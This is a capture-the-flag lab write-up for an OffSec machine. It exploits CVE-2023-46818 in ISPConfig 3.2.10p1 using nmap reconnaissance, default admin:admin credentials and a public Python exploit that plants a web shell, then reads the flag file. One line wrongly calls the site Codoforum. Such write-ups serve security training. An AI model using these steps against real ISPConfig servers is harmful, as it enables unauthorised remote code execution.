

# CVE-2023-46818

- [Machine information](#machine-information)
- [Solution](#solution)
- [References](#references)

## Machine information

```text
Difficulty: Easy
Community Rating: Easy
Meta Tags: Walkthrough, Walk-through, Write-up, Writeup
OS: Linux
Points: 10
Number of Flags: 1
Lab Description:
This lab focuses on exploiting a vulnerability in ISPConfig version 3.2.10p1, leveraging CVE-2023-46818, 
which allows PHP code injection via the language file editor. Participants will perform reconnaissance, 
identify vulnerabilities, and execute a proof-of-concept (PoC) exploit to achieve Remote Code Execution 
(RCE).
Released: 26 Sep 2024
```

Machine link: [https://portal.offsec.com/machine/cve-2023-46818-185272/overview/details](https://portal.offsec.com/machine/cve-2023-46818-185272/overview/details)

## Solution

### Scan for services with nmap

We start by scanning the machine on all ports with `nmap` including service info and default scripts

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Easy/CVE-2023-46818]
└─$ export TARGET_IP=192.168.114.101

┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Easy/CVE-2023-46818]
└─$ sudo nmap -sC -sV -p- $TARGET_IP
[sudo] password for kali: 
Starting Nmap 7.98 ( https://nmap.org ) at 2026-03-05 12:24 +0100
Nmap scan report for 192.168.114.101
Host is up (0.038s latency).
Not shown: 65531 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 51:56:a7:34:16:8e:3d:47:17:c8:96:d5:e6:94:46:46 (RSA)
|   256 fe:76:e3:4c:2b:f6:f5:21:a2:4d:9f:59:52:39:b9:16 (ECDSA)
|_  256 2c:dd:62:7d:d6:1c:f4:fd:a1:e4:c8:aa:11:ae:d6:1f (ED25519)
80/tcp   open  http    Apache httpd
| http-robots.txt: 1 disallowed entry 
|_/
| http-title: ISPConfig
|_Requested resource was /login/
|_http-server-header: Apache
8080/tcp open  http    Apache httpd
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache
8081/tcp open  http    Apache httpd
|_http-title: 403 Forbidden
|_http-server-header: Apache
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 27.37 seconds
```

We have two services running and available:

- OpenSSH 8.2p1 on port 22
- Apache httpd on port 80, 8080, and 8081

### Check the web site on port 80

Browsing manually to port 80 shows a Codoforum site


Checking if we can login with `admin:admin` is successful!



Under `Help` we get the version of ISPConfig: **3.2.10p1**.

### Search for available exploits

Next we check for available exploits for `CVE-2023-46818` and find [this one](https://github.com/ajdumanhug/CVE-2023-46818/blob/main/README.md)

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Easy/CVE-2023-46818]
└─$ python CVE-2023-46818.py                                   
Usage: python3 CVE-2023-46818.py <URL> <Username> <Password>

┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Easy/CVE-2023-46818]
└─$ python CVE-2023-46818.py http://$TARGET_IP admin admin   
[+] Logging in with username 'admin' and password 'admin'
[+] Login successful!
[+] Fetching CSRF tokens...
[+] CSRF ID: language_edit_956683ac9d64d17a4be7c577
[+] CSRF Key: fe19d1d406631b7012bf7e989395666a7f7c1bb3
[+] Injecting shell payload...
[+] Shell written to: http://192.168.114.101/admin/sh.php
[+] Launching shell...

ispconfig-shell# id
uid=33(www-data) gid=33(www-data) groups=33(www-data),1001(ispapps),1002(ispconfig)

ispconfig-shell# 
```

### Basic Enumeration

Next, we do some basic enumeration on the system

```bash
ispconfig-shell# pwd
/usr/local/ispconfig/interface/web/admin

ispconfig-shell# ls -la
total 256
drwxr-x---  6 www-data www-data 4096 Mar  5 12:59 .
drwxr-x--- 19 www-data www-data 4096 Sep  3  2024 ..
-rwxr-x---  1 www-data www-data 3229 Sep  3  2024 directive_snippets_del.php
-rwxr-x---  1 www-data www-data 4252 Sep  3  2024 directive_snippets_edit.php
-rwxr-x---  1 www-data www-data 3176 Sep  3  2024 directive_snippets_list.php
-rwxr-x---  1 www-data www-data 2155 Sep  3  2024 firewall_del.php
-rwxr-x---  1 www-data www-data 3459 Sep  3  2024 firewall_edit.php
-rwxr-x---  1 www-data www-data 2045 Sep  3  2024 firewall_list.php
drwxr-x---  2 www-data www-data 4096 Sep  3  2024 form
-rwxr-x---  1 www-data www-data 2148 Sep  3  2024 groups_del.php
-rwxr-x---  1 www-data www-data 2172 Sep  3  2024 groups_edit.php
-rwxr-x---  1 www-data www-data 2042 Sep  3  2024 groups_list.php
-rwxr-x---  1 www-data www-data 2500 Sep  3  2024 index.php
-rwxr-x---  1 www-data www-data 2123 Sep  3  2024 iptables_del.php
-rwxr-x---  1 www-data www-data 2195 Sep  3  2024 iptables_edit.php
-rwxr-x---  1 www-data www-data 2085 Sep  3  2024 iptables_list.php
-rwxr-x---  1 www-data www-data 4548 Sep  3  2024 language_add.php
-rwxr-x---  1 www-data www-data 6126 Sep  3  2024 language_complete.php
-rwxr-x---  1 www-data www-data 4263 Sep  3  2024 language_edit.php
-rwxr-x---  1 www-data www-data 4922 Sep  3  2024 language_export.php
-rwxr-x---  1 www-data www-data 7116 Sep  3  2024 language_import.php
-rwxr-x---  1 www-data www-data 4005 Sep  3  2024 language_list.php
drwxr-x---  4 www-data www-data 4096 Sep  3  2024 lib
drwxr-x---  2 www-data www-data 4096 Sep  3  2024 list
-rw-r--r--  1 root     root       33 Mar  5 11:23 proof.txt
-rwxr-x---  1 www-data www-data 3656 Sep  3  2024 remote_action_ispcupdate.php
-rwxr-x---  1 www-data www-data 3634 Sep  3  2024 remote_action_osupdate.php
-rwxr-x---  1 www-data www-data 2377 Sep  3  2024 remote_user_del.php
-rwxr-x---  1 www-data www-data 1487 Sep  3  2024 remote_user_edit.php
-rwxr-x---  1 www-data www-data  525 Sep  3  2024 remote_user_list.php
-rwxr-x---  1 www-data www-data 2250 Sep  3  2024 server_config_del.php
-rwxr-x---  1 www-data www-data 9164 Sep  3  2024 server_config_edit.php
-rwxr-x---  1 www-data www-data 2102 Sep  3  2024 server_config_list.php
-rwxr-x---  1 www-data www-data 2238 Sep  3  2024 server_del.php
-rwxr-x---  1 www-data www-data 3302 Sep  3  2024 server_edit.php
-rwxr-x---  1 www-data www-data 2151 Sep  3  2024 server_ip_del.php
-rwxr-x---  1 www-data www-data 2921 Sep  3  2024 server_ip_edit.php
-rwxr-x---  1 www-data www-data 2138 Sep  3  2024 server_ip_list.php
-rwxr-x---  1 www-data www-data 1927 Sep  3  2024 server_ip_map_del.php
-rwxr-x---  1 www-data www-data 5306 Sep  3  2024 server_ip_map_edit.php
-rwxr-x---  1 www-data www-data 1952 Sep  3  2024 server_ip_map_list.php
-rwxr-x---  1 www-data www-data 2042 Sep  3  2024 server_list.php
-rwxr-x---  1 www-data www-data 2568 Sep  3  2024 server_php_del.php
-rwxr-x---  1 www-data www-data 3291 Sep  3  2024 server_php_edit.php
-rwxr-x---  1 www-data www-data 2431 Sep  3  2024 server_php_list.php
-rwxr-x---  1 www-data www-data 9838 Sep  3  2024 system_config_edit.php
drwxr-x---  2 www-data www-data 4096 Sep  3  2024 templates
-rwxr-x---  1 www-data www-data 2173 Sep  3  2024 tpl_default.php
-rwxr-x---  1 www-data www-data 2255 Sep  3  2024 users_del.php
-rwxr-x---  1 www-data www-data 5815 Sep  3  2024 users_edit.php
-rwxr-x---  1 www-data www-data 2108 Sep  3  2024 users_list.php

ispconfig-shell# 
```

Weird, the `proof.txt` file is in the current directory and is world readable!?

### Get the root flag

So we can just cat the flag

```bash
ispconfig-shell# cat proof.txt
e<REDACTED>e

ispconfig-shell# 
```

For additional information, please see the references below.

## References

- [Apache HTTP Server - Wikipedia](https://en.wikipedia.org/wiki/Apache_HTTP_Server)
- [CVE-2023-46818 Python Exploit - GitHub](https://github.com/ajdumanhug/CVE-2023-46818/blob/main/README.md)
- [id - Linux manual page](https://man7.org/linux/man-pages/man1/id.1.html)
- [nmap - Homepage](https://nmap.org/)
- [nmap - Linux manual page](https://linux.die.net/man/1/nmap)
- [nmap - Manual page](https://nmap.org/book/man.html)
- [Python (programming language) - Wikipedia](https://en.wikipedia.org/wiki/Python_(programming_language))
- [sudo - Linux manual page](https://man7.org/linux/man-pages/man8/sudo.8.html)
- [sudo - Wikipedia](https://en.wikipedia.org/wiki/Sudo)
